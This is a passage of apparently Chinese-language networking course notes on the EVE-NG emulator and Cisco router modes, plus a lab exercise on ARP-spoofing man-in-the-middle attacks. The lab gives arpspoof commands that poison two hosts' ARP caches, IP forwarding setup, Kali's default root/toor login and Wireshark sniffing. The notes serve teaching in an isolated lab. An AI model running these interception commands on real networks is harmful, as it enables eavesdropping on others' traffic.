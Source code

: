 # EVE
- 模擬器

    名稱|差異
    -|-
    simulator|以軟體創造出環境
    emulator|虛擬出整個系統

- 路由協定(這學期會教的)

    - RIP、OSPF、EIGRP

## Router控制

- 模式

    名稱 | 用途
    - | -
    user mode | 檢視
    priviledged mode | 更多功能
    config mode | 配置

- 進入特權模式 `enable`

- 顯示版本 `do show version`

- 離開模式 `exit`

## 中間人攻擊

- EVE環境

    - qemu準備win7、linux-kali

- 使用工具

    - ettercap、arpspoof

- VPC

    - `ip 192.168.1.1/24`

- Windows

    - 網絡設置 192.168.1.2/24

    - `ping 192.168.1.1 -t`

- LINUX

    - root/toor

    - `ip addr add 192.168.1.3/24 brd + dev eth0`

    - `echo 1 > /proc/sys/net/ipv4/ip_forward`

    - 欺騙192.168.1.1 "LINUX是192.168.1.2" `arpspoof -i eth0 -t 192.168.1.1 192.168.1.2`

    - 欺騙192.168.1.2 "LINUX是192.168.1.1" `arpspoof -i eth0 -t 192.168.1.2 192.168.1.1`

    - `wireshark`

- 額外狀況

    - 若是安裝在非預設位置，可至`C:\Program Files\EVE-NG\ultravnc_wrapper.bat`更改
---

**參考資料:**

- [Arpspoof](https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/58.html)

    